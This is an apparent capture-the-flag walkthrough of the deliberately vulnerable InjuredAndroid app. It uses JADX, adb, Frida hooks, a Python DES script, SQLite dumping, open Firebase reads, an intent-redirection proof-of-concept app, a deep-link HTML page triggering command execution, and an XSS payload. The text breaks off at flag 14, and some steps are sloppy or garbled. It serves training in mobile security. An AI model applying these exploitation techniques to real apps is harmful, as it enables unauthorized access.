> Cover image source: [Source](./android-pen.png)

 Introduction
---------------
**بسم الله الرحمن الرحيم**
**والصلاة والسلام على أشرف المرسلين، سيدنا محمد وعلى آله وصحبه أجمعين.**


HEllo ya shapap 
In this article we will build a practical mobile pentesting workflow using InjuredAndroid as our target laboratory.

The walkthrough is split into two main sections:
0. Application Layer Analysis

    Static Analysis: Decompiling the APK to audit Java and Kotlin source code inspecting the Manifest file and identifying insecure configurations.

    Dynamic Analysis: Interacting with exported components such as Activities Broadcast Receivers and Content Providers while analyzing local storage files and application data flow.

0. Native Layer & Fuzzing

    Native Reversing: Reversing the compiled .so payload using Ghidra to isolate critical functions and trace JNI native calls.

    Coverage-Guided Fuzzing: Setting up AFL++ against the extracted native code to identify memory corruption bugs like Buffer Overflows and assess their potential for Remote Code Execution.

0. When starting a real-world Android assessment the first step is running the application to explore its features and understand the business logic.

After getting a feel for how the app behaves we jump into reverse engineering to inspect the underlying source code. In our case we will use **JADX** to decompile the APK and analyze critical entry points including the **AndroidManifest.xml** file and the **MainActivity**.
---------------------------------------

1. **Static Analysis:**
===


This app 
we will testing all and get the flags

Once the application is installed and running on the device we open **JADX** to begin the reverse engineering process.

 This allows us to inspect the core logic inspect key classes and map out the internal structure of the app before diving deeper into specific components.


 

2. **Flag One - Hardcoded CREd**:
===
 

First we inspect the `AndroidManifest.xml` file to locate the target **activities** We find FlagOneLoginActivity registered in the manifest.

Tracing this activity to its decompiled source code in JADX reveals the logic behind the challenge:
```
public final void submitFlag(View view) {
    EditText editText = (EditText) findViewById(R.id.editText2);
    d.s.d.g.d(editText, "editText2");
    if (d.s.d.g.a(editText.getText().toString(), "F1ag_0n3")) {
        Intent intent = new Intent(this, (Class<?>) FlagOneSuccess.class);
        new FlagsOverview().J(true);
        new j().b(this, "flagOneButtonColor", true);
        startActivity(intent);
    }
}
```
 

3. **Flag Two - Exported Activity Exp**
===

the second challenge, the hint explicitly points toward invoking an exported activity:
Invoke exported activity with **adb**

Checking **AndroidManifest.xml** reveals the activity definition for **b3nac.injuredandroid.b25lActivity**

 
```
<activity
    android:name="b3nac.injuredandroid.b25lActivity"
    android:exported="true">
</activity>
```
The attribute android:``exported="true"`` means any external application or command-line tool on the device can launch this activity directly without going through the main user interface flow or authentication checks.

**We can bypass the UI and trigger the flag directly using adb**
```adb shell am start -n b3nac.injuredandroid/.b25lActivity```



4. **Flag Three 3: Resource Reference Trace**
===


Find FlagThreeActivity `b3nac.injuredandroid.FlagThreeActivity` in AndroidManifest.xml and following the activity 

 

Inspecting `FlagThreeActivity` in JADX reveals how input validation is executed:
```
if (post.equals(getString(R.string.cmVzb3VyY2VzX3lv))) {
    Intent intent = new Intent(this, FlagOneSuccess.class);
    FlagsOverview.flagThreeButtonColor = true;
    SharedPreferences.Editor editor = settings.edit();
    editor.putBoolean("flagThreeButtonColor", true).commit();
    startActivity(intent);
}
```
Instead of comparing the user input against a plain text string, the application calls getString(R.string.cmVzb3VyY2VzX3lv).

To resolve this reference, we navigate to **res/values/strings.xml** inside JADX and search for cmVzb3VyY2VzX3lv:
```
<string name="cmVzb3VyY2VzX3lv">F1ag_thr33</string>
```
 


5. **Flag Four 4: Base64 Obfuscation**
===
The fourth challenge focuses on inspecting custom helper classes and decoding obfuscated values:

    Find where the bob variable is located. Search the Decoder class for the base64 string and decode it or hook the method with Frida.

Locating **FlagFourActivity** and inspecting its decompiled source code reveals the input validation logic:
```
String bob = new String(decoder.getData());
if (post.equals(bob)) {
    Intent intent = new Intent(this, FlagOneSuccess.class);
    FlagsOverview.flagFourButtonColor = true;
    SharedPreferences.Editor editor = settings.edit();
    editor.putBoolean("flagFourButtonColor", true).commit();
    startActivity(intent);
}
```
The user input post is compared against `bob` which is constructed using the `getData()` method from a separate Decoder class.

Tracing the `Decoder` class leads to the following implementation

```
public class Decoder {
    byte[] data = Base64.decode("NF9vdmVyZG9uZV9vbWVsZXRz", Base64.DEFAULT);

    public byte[] getData() {
        return data;
    }
}
```
The string `"NF9vdmVyZG9uZV9vbWVsZXRz"` is hardcoded and passed to `Base64.decode().` Decoded from Base64:
```
echo "NF9vdmVyZG9uZV9vbWVsZXRz" | base64 -d

```
Entering 4_****_omelets into the application input field completes the challenge


6. **Flag Five 5: Exported Broadcast Receiver**
===

For the fifth challenge the application uses a Broadcast Receiver to process intents and display the flag based on an internal state counter:

**Manifest Analysis**

Inspecting ```AndroidManifest.xml``` reveals an exported broadcast receiver configured to listen for a custom action:
```
<receiver
    android:name="b3nac.injuredandroid.FlagFiveReceiver"
    android:exported="true">
    <intent-filter>
        <action android:name="com.b3nac.injuredandroid.intent.action.CUSTOM_INTENT" />
    </intent-filter>
</receiver>
```
``android:exported="true"``: Allows external applications or arbitrary ADB commands to interact with this receiver directly.

Intent Filter Action: Registers ```com.b3nac.injuredandroid.intent.action.CUSTOM_INTENT``` as the trigger action.

 analyzing FlagFiveReceiver.java reveals how the internal state variable **wtf** controls response handling:
 ```
 if (wtf == 0) {
    StringBuilder sb = new StringBuilder();
    sb.append("Action: " + intent.getAction() + "\n");
    sb.append("URI: " + intent.toUri(Intent.URI_INTENT_SCHEME) + "\n");
    String log = sb.toString();
    Log.d("DUDE!:", log);
    Toast.makeText(context, log, Toast.LENGTH_LONG).show();
    wtf = wtf + 1;
}
else if (wtf == 1) {
    String win = "Keep trying!";
    Toast.makeText(context, win, Toast.LENGTH_LONG).show();
    wtf = wtf + 1;
}
else if (wtf == 2) {
    String win = "You are a winner " + VGV4dEVuY3J5cHRpb25Ud28.decrypt("Zkdlt0WwtLQ=");
    FlagsOverview.flagFiveButtonColor = true;
    SharedPreferences.Editor editor = settings.edit();
    editor.putBoolean("flagFiveButtonColor", true).commit();
    Toast.makeText(context, win, Toast.LENGTH_LONG).show();
} else {
    String win = "Keep trying!";
    Toast.makeText(context, win, Toast.LENGTH_LONG).show();
}
```
**Explain ll code **
State 0 ```(wtf == 0)``: Logs intent details to Logcat (DUDE!:), pops a Toast message with intent data, and increments wtf to 1.

State 1 ``(wtf == 1)``: Displays a Toast reading "Keep trying!" and increments wtf to 2.

State 2 ``(wtf == 2)``: Decrypts the flag payload using ``VGV4dEVuY3J5cHRpb25Ud28.decrypt("Zkdlt0WwtLQ=")``, sets flagFiveButtonColor to true in SharedPreferences, and displays the final flag via Toast.


Rather than opening and closing FlagFiveActivity manually three times inside the mobile application UI, we can trigger the intent directly using the Android Debug Bridge (adb).

Run the following command:
```
am broadcast -a com.b3nac.injuredandroid.intent.action.CUSTOM_INTENT -n b3nac.injuredandroid/.FlagFiveReceiver

```
We need to send it three times to pop the flag.

6. **Flag Six 6: Dynamic Analysis & Hooking with Frida (TextEncryptionTwo)**
===

Searching **AndroidManifest.xml** for flag_six identifies b3nac.injuredandroid.FlagSixLoginActivity as the target activity.
Let's to gonne to Activity to see it FlagSixLoginActivity

```
if (input.equals(k.a("k3FElEG9lnoWbOateGhj5pX6QsXRNJKh///8Jxi8KXW7iDpk2xRxhQ=="))) {
    // Flag unlocked successfully
}
```
**Analysis of Helper Classes**

    b3nac.injuredandroid.k: Implements a(String), which base64-decodes the input and decrypts it using DES.

    b3nac.injuredandroid.h: Implements b(), which returns the Base64-encoded key "Q2FwdHVyM1RoMXM=".

    
Static analysis involves analyzing the decompiled code without executing the app and replicating the decryption logic locally using Python.

**Encoded Key**: "Q2FwdHVyM1RoMXM=" $\xrightarrow{\text{Base64}}$ Captur3Th1sDES Key Length Requirement: DES uses an 8-byte (64-bit) key, so only the first 8 bytes (Captur3T) are used by DESKeySpec.Encoded Ciphertext: "k3FElEG9lnoWbOateGhj5pX6QsXRNJKh///8Jxi8KXW7iDpk2xRxhQ=="

**I write the python script**
```
import base64
from Crypto.Cipher import DES

ENCODED_KEY = "Q2FwdHVyM1RoMXM="
ENCODED_STRING = "k3FElEG9lnoWbOateGhj5pX6QsXRNJKh///8Jxi8KXW7iDpk2xRxhQ=="

def decrypt():
    # Decode base64 key and truncate to 8 bytes for DES
    key = base64.b64decode(ENCODED_KEY)[:8]
    ciphertext = base64.b64decode(ENCODED_STRING)
    
    # Initialize DES cipher in ECB mode
    cipher = DES.new(key, DES.MODE_ECB)
    decrypted_bytes = cipher.decrypt(ciphertext)
    
    print("[+] Decrypted Result:", decrypted_bytes)

if __name__ == '__main__':
    decrypt()
```
Output:
```
{This_Isn't_Where_I_Parked_My_Car}
```

U can also using the Frida for get the flag like this ya shapap:
we will write the payload  java script to hook decryption method and sending the encrypted flag as a parameter like below

```
Java.perform(function() {
    var targetClass = Java.use("b3nac.injuredandroid.k");
    console.log(targetClass.a("k3FElEG9lnoWbOateGhj5pX6QsXRNJKh///8Jxi8KXW7iDpk2xRxhQ=="));
  });
 ```

 frida -U -f b3nac.injuredandroid -l nano_6.js

 Output:
 ```
 {This_Isn't_Where_I_Parked_My_Car}

 ```
 
 8. **Flag Seven 7: SQLite Database**
===
For the seventh challenge, the application takes two inputs and utilizes local persistent storage via an SQLite database along with string obfuscation to validate the flag and password.
**Manifest Analysis**
Inspecting AndroidManifest.xml reveals the target activity configured for this challenge:
```
<activity
    android:name="b3nac.injuredandroid.FlagSevenSqliteActivity"
    android:exported="true" />
```
Analyzing `FlagSevenSqliteActivity` shows that during `onCreate()`, the application initializes and populates a local `SQLite database` with base64-decoded parameters. Validation relies on comparing user inputs against values managed by the helper class `b3nac.injuredandroid.j`

come  useing  the  sqlite to see inside the database inside shell :
```
cd /data/data/b3nac.injuredandroid/databases
ls
Thisisatest.db Thisisatest.db-shm Thisisatest.db-wal
sqlite3 Thisisatest;
sqlite> .tables
Thisisatest       android_metadata
sqlite> select * from Thisisatest

1|The flag hash!|2ab96390c7dbe3439de74d0c9b0b1767
2|The flag is also a password!|9EEADi^^:?;FC652?5C@:5]7:C632D6:@]4@>^DB=:E6];D@?
```
 


Cracking the MD5 Password Hash

The stored password hash is:  2ab96390c7dbe3439de74d0c9b0b1767 | hunter2

Decoding the ROT47 Obfuscated URL

The URL parameter string stored in the database or Hide class is obfuscated using ASCII ROT47 (a character shift of 47 positions):
```
9EEADi^^:?;FC652?5C@:5]7:C632D6:@]4@>^DB=:E6];D@?
```
Decoding this string with a ROT47 cipher tool reveals the remote URL:
```
https://injuredandroid.firebaseio.com/sqlite.json
```
**i will using the frida to hook**
Instead of manually inspecting local databases and decoding strings, we can intercept the decryption routines in b3nac.injuredandroid.j at runtime using Frida.

**runner.py**
```
import frida
from time import sleep

device = frida.get_usb_device()
pid = device.spawn(["b3nac.injuredandroid"])
device.resume(pid)
sleep(1)

session = device.attach(pid)
with open("hook.js") as f:
    script = session.create_script(f.read())
    script.load()

print("[*] Hook loaded. Interact with Flag 7 UI...")
input()
```
**JavaScript Hook**(hook.js)

```
Java.perform(function () {
    console.log("[+] Hooking target class b3nac.injuredandroid.j...");
    var decryptorClass = Java.use("b3nac.injuredandroid.j");

    decryptorClass.a.overload("java.lang.String", "java.lang.String").implementation = function (str1, str2) {
        console.log("[+] Intercepted call to decryption routine!");
        var decryptedValue = this.c(str1, str2);
        console.log("[!] Decrypted Value: " + decryptedValue);
        return decryptedValue;
    };
});
```
This two ways to hook 

```
frida -U -f b3nac.injuredandroid -l hook.js
```
Until to get the &&  flag 
```
curl -s https://injuredandroid.firebaseio.com/sqlite.json
```
As json format :
```
S3V3N_11
```
9.  **Flag eghit 8: Firebase Misconfigurations**
===

Firebase Realtime Database is one of the most popular cloud services used by Android developers to store and synchronize data in real-time. While Firebase's core infrastructure is managed by Google and secure by default, data security relies entirely on developer-configured Security Rules.

A. Manifest Inspection

Inspecting AndroidManifest.xml identifies two separate activities configured for remote cloud authentication:
```
<activity
    android:name="b3nac.injuredandroid.FlagEightLoginActivity"
    android:exported="true" />
<activity
    android:name="b3nac.injuredandroid.FlagNineFirebaseActivity"
    android:exported="true" />
```
The defanged Firebase URL is:

 

https://injuredandroid.firebaseio.com/aws.json
 


Lets to see **strings.xml**

While inspecting res/values/strings.xml for credentials and endpoints, two empty entries related to AWS were discovered:
```
<string name="AWS_ID" />
<string name="AWS_SECRET" />
```
The challenge was originally **designed** around an AWS S3 bucket and hardcoded IAM user credentials (aws_key & aws_secret). Later, to eliminate ongoing cloud maintenance costs, the author (b3nac) migrated the backend logic to Google Firebase while leaving empty AWS XML keys as legacy artifacts.

Searching strings.xml for **firebase** yields the active base endpoint:
```
<string name="firebase_database_url">https://injuredandroid.firebaseio.com</string>
```
**C. Decompiler Cross-Referencer Analysis**


Analyzing submitFlag() inside FlagEightLoginActivity:
```
public void submitFlag(View view) {
    if (this.y.b().equals(userInput)) {
        // Flag unlocked
    }
}
```
Tracing **this.y** via JADX Cross-Referencer (X) reveals how the Firebase child node is initialized:

```
FirebaseDatabase instance = FirebaseDatabase.getInstance();
this.y = instance.getReference().child("aws");
```

Noticeably, the author named the Firebase child node explicitly as "aws" as a direct homage to the original challenge setup For **Flag 9**, the process is identical, with the target child node Base64-decoded from "flags".


10.  **Flag nine 9 : Insecure Firebase Realtime Database / Security Misconfiguration**
===

By opening ``FlagNineFirebaseActivity`` inside JADX, we identify the following Base64-encoded string handling the Firebase path reference:

```
public class FlagNineFirebaseActivity extends AppCompatActivity {
    int click = 0;
    private static final String TAG = "FirebaseActivity";
    final String directory = "ZmxhZ3Mv";
    byte[] decodedDirectory = Base64.decode(directory, Base64.DEFAULT);
    final String refDirectory = new String(decodedDirectory, StandardCharsets.UTF_8);
    // ...
}
```
Decoding the Database Directory

Decoding the value of directory (`ZmxhZ3Mv`) using Base64 Decode reveals the actual directory path

Because the Firebase instance lacks proper read permissions (".read": true), appending .json to the discovered endpoint allows unauthenticated access:

target URL: [``https://injuredandroid.firebaseio.com/flags.json``]


open the web browser:
 
We get the flag yah shapap so encode the this ``[nine!_flag]`` to base64 with `[]` okay :) 
so Here we go the base64 ->> xd:) `W25pbmUhX2ZsYWdd`

11. **Flag 10 - Unicode Collision**
===

Vuln  Class: Unicode Case Collision / Improper Case Sensitivity Handling


Objective: Exploit the standard behavior of Java/Kotlin's **toUpperCase()** method using a Unicode dotless ı character to bypass an exact-string comparison check.
search about Github dotless i

**Code Analysis**

In ``FlagTenUnicodeActivity``, we inspect the input verification logic:

```
val value = dataSnapshot.value as String?
when {
    post == value -> Toast.makeText(this@FlagTenUnicodeActivity, "No cheating. :]", Toast.LENGTH_SHORT).show()
    post.toUpperCase(Locale.ROOT) == value!!.toUpperCase(Locale.ROOT) -> correctFlag()
    else -> Toast.makeText(this@FlagTenUnicodeActivity, "Try again! :D", Toast.LENGTH_SHORT).show()
}
```
Looking closely at the **when** condition:

`post == value`: Checks if the user input matches the target string (John@Github.com) directly. If true, it blocks it with "No cheating. :) " to prevent simple copy-pasting.

post.toUpperCase(Locale.ROOT) == value!!.toUpperCase(Locale.ROOT): The app converts both strings to uppercase and compares them. If they match here, correctFlag() is triggered.

This introduces a Unicode Case Collision

In Turkish and standard Unicode tables, the dotless small ı (U+0131) converts to a standard uppercase I (U+0049) when .toUpperCase(Locale.ROOT) is applied:

So if we replace the lowercase i in Github with a dotless ı:Plain text check: `John@Gıthub.com` $\neq$ John@Github.com $\rightarrow$ Bypasses the "No cheating" check.Uppercase check: JOHN@GITHUB.COM $=$ JOHN@GITHUB.COM $\rightarrow$ Triggers correctFlag().

Launch the  Activity

Start the target authentication activity using adb
```
adb shell am start -n b3nac.injuredandroid/.QXV0aA
```
 

Paste the email containing the dotless ı:
```
John@Gıthub.com
```

12. **Flag 11 - Deep Links & Native Binaries**
===

Launching the Activity via Deep Link

Inspecting AndroidManifest.xml shows an activity configured with an ``<intent-filter>`` listening for the custom scheme **flag11://**

To bypass manual UI navigation and open the target activity directly run this ADB command in your terminal:
```
adb shell am start -W -a android.intent.action.VIEW -d "flag11://"
```

Extracting the Flag from the Binary

After extracting the APK package navigate to the following path:

``res/values/meʼnu``

Inside you will find a compiled Go binary.

To inspect plain text strings stored inside the binary run the standard strings command:
```
strings res/values/meʼnu | grep -i "flag"
```
While tools like JADX focus on decompiling Java/Kotlin bytecode into source code,**Apktool** decodes resources and raw assets into their original file structures.
```
apktool d injuredandroid.apk
```
Executing / Inspecting the Native Binary

Inside the unpacked directory structure, the compiled Go executable (me'nu)  `res/values/meʼnuis` located within the raw app assets. Running the binary directly or extracting plain-text strings yields the final key:
  
 based on Firebase:
```
HIIMASTRING
```
13. **Flag 12 - Protected Intent (Intent Redirection)**
===

This challenge demonstrates an **Intent Redirection** vuln where an exported activity acts as an open proxy to launch an unexported (protected) activity on behalf of an external untrusted application.

**Unexported Component**: ``FlagTwelveProtectedActivit``y has ``android:exported="false" `` in ``AndroidManifest.xml`` and cannot be launched directly by external apps.

Exported Proxy Component: **ExportedProtectedIntent is exported** and accepts a nested Intent object via the extra key access_protected_component.

Flaw: ExportedProtectedIntent receives the extra Intent and calls `startActivity()` on it without validating the target component or destination.

To test this issue, a secondary application creates a nested Intent structure:

```
package b3nac.injuredandroid.poc;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Target the unexported activity
        Intent next = new Intent();
        next.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagTwelveProtectedActivity");
        next.putExtra("totally_secure", "https://google.com");

        // Embed the target intent inside the intent for the exported proxy activity
        Intent start = new Intent();
        start.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.ExportedProtectedIntent");
        start.putExtra("access_protected_component", next);

        // Trigger the proxy
        startActivity(start);
    }
}
```

protectedIntent Construction: Configured to target the protected activity, containing the required https:// URL and the text/html MIME type.

sendIntent Wrapping: Passes protectedIntent as a Parcelable extra inside access_protected_component targeting the exported activity.

Privilege Escalation: ExportedProtectedIntent unpackages protectedIntent and invokes `startActivity()`. Because the launch originates internally within InjuredAndroid's process, Android permits access to `FlagTwelveProtectedActivity` and prints the flag.


14.  **Flag 13- RCE & Deep Link Exploitation**
===

This challenge demonstrates a **Remote Code Execution** (RCE) vulnerability triggered through a custom Deep Link scheme handled by the application.
**Deep Link Configuration**

Checking` AndroidManifest.xml` reveals that RCEActivity defines an `<intent-filter>` listening for a specific scheme and host:

```
<data android:scheme="flag13" android:host="rce" />
```
This allows external applications or web pages to target the activity using URIs structured as **flag13://rce**

i will  Review **(RCEActivity)**

Inside RCEActivity.onCreate(), the application parses incoming URL query parameters:
`binary`
`param`
`combined`
When binary and param are supplied, the app constructs a shell path pointing to its internal directory and executes the command directly via `Runtime.getRuntime().exec()`:
```
StringBuilder sb = new StringBuilder();
sb.append(getFilesDir().getParent());
sb.append("/files/");
sb.append(queryParameter);  // binary name
sb.append(" ");
sb.append(queryParameter2); // argument

Process exec = runtime.exec(sb.toString());
```

the app's writable /files/ directory.
Reverse Engineering the Binary `(narnia.x86_64)`

Using **Apktool** to unpack the APK, we extract the target executable narnia.x86_64 from the assets.

Analyzing the binary in **IDA** Pro (or inspecting command flags) reveals a --help flag:
```
./narnia.x86_64 --help
```
Testing the `available` `argument` `commands` yields:
Concatenating the outputs yields the full key string: `Treasure_Planet`

We construct a minimal HTML page to trigger the deep link intents directly on the device:
```
<html>
  <p><a href="flag13://rce?binary=narnia.x86_64&param=testOne">Test One</a></p>
  <p><a href="flag13://rce?binary=narnia.x86_64&param=testTwo">Test Two</a></p>
  <p><a href="flag13://rce?binary=narnia.x86_64&param=testThree">Test Three</a></p>
  <p><a href="flag13://rce?combined=Treasure_Planet">Submit Flag</a></p>
</html>
```
Push the file to the emulator/device via adb:
```
adb push lvl_13.html /sdcard/Download/
```

**Opening the file in a mobile browser and invoking the links executes the native binary remotely, returning the combined flag submission.**
U will get the flag ya hackers : **Treasure_Planet** :) 

15. **Flag 14- Flutter XSS & Auth Bypass**
===
lutter applications run differently than native Java/Kotlin Android apps. Instead of traditional Activities and Views, Flutter uses a widget-based architecture powered by the Dart runtime.

During reverse engineering:

    Debug builds package the Dart source bytecode into kernel_blob.bin (located in assets/flutter_assets/).

    Release builds compile the Dart code ahead-of-time (AOT) into native shared libraries like libapp.so.

Inspecting the decompiled Dart source files main.dart, `ogin-xss.dart` `uth-bypass.dart` and `run_javascript.dart` reveals two flaws in the Flutter implementation.

**Chapter one Flutter XSS**
In`login-xss.dart`user input from usernameKey is passed into`MyHomePage`

```
// login-xss.dart
if (_formKey.currentState.validate()) {
  Scaffold.of(context).showSnackBar(SnackBar(content: Text('Processing Data')));
  Navigator.push(
    context,
    MaterialPageRoute(
      builder: (context) => MyHomePage(test: usernameKey.currentState.value),
    ),
  );
}
```

In run_javascript.dart, the passed username value is stored in widget.test. Clicking the account_circle icon triggers the following check:

```
// run_javascript.dart
InkWell(
  child: Icon(Icons.account_circle),
  onTap: () {
    if (widget.test == "onclick=alert(1)") {
      flutterWebviewPlugin.evalJavascript(widget.test);
      storeFlagState() async {
        SharedPreferences prefs = await SharedPreferences.getInstance();
        prefs.setString('flagFourteenButtonColor', "Flag fourteen found!");
      }
      storeFlagState();
    }
  },
)

```
Open Flutter XSS in the app Type onclick=alert(1) in the Username field Type any dummy string in the Password field
Click Sign up
Tap the account_circle profile icon on the next screen
Executing evalJavascript() with the payload triggers the XSS logic and marks Level 14 complete in the flag overview

**Chapter 2 Flutter Auth Bypass**

Comparing login-xss.dart and auth-bypass.dart shows an improper routing implementation inside the form validator.
Standard Implementation (login-xss.dart)

Validation runs across all fields before triggering Navigator.push:
```
if (_formKey.currentState.validate()) {
  Navigator.push(
    context,
    MaterialPageRoute(
      builder: (context) => MyHomePage(test: usernameKey.currentState.value),
    ),
  );
}
```
Flawed Implementation (auth-bypass.dart)

The navigation route is placed directly inside the username validator callback itself:

```
